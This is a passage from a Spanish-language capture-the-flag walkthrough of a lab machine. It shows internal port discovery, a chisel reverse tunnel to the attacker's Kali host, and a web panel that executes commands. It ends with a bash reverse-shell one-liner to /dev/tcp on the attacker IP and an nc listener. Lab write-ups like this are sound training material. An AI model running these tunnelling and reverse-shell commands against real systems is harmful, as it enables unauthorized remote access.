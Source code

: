 Si vemos los permisos de la carpeta /opt, vemos que existe un grupo llamado spiderlab, pero en la máquina no hay mas usuarios.

Si recordamos la nota anterior, hablaba de algo internamente, será un puerto interno. Para ello ejecutamos:

```
ss -tulnup
```

Y vemos que hay un puerto interno, en el puerto 8080:

```
127.0.0.1:8080
```

Tendremos que hacer un port forwarding para traaernos el puerto a nuestro kali y visualizar el servicio que esta corriendo internamente, para ello usaremos *chisel*

En la máquina atacante ejecutamos:

```
chisel server --reverse -p 8000
```

Y en la máquina víctima ejecutamos este comando:

```
chisel client 192.168.1.153:8000 R:443:127.0.0.1:8080
```

En la máquina víctima nos debe salir algo así al ejecutar el comando, para saber si se ha conectado bien:

```
2025/09/04 15:47:36 client: Connecting to ws://192.168.1.153:8000
2025/09/04 15:47:36 client: Connected (Latency 1.080611ms)
```

Ahora, al traernos el puerto a nuestro kali (máquina atacante), tendremos que poner en el navegador la siguiente dirección para poder ver que contiene la web:

```
127.0.0.1:443
```

Y nos sale una web con el título: PANEL INTERNO DEL MULTIVERSO.
En esta web vemos que podemos ejecutar comandos a nivel de consola.

Si ejecutamos whoami, nos devuelve www-data y si listamos nos sale el index.php de la página

A continuación vamos a intentar una reverse shell:

```
bash -c "bash -i >& /dev/tcp/192.168.1.153/4444 0>&1"
```

Nos ponemos a la escucha:

```
sudo nc -lvnp 4444
```
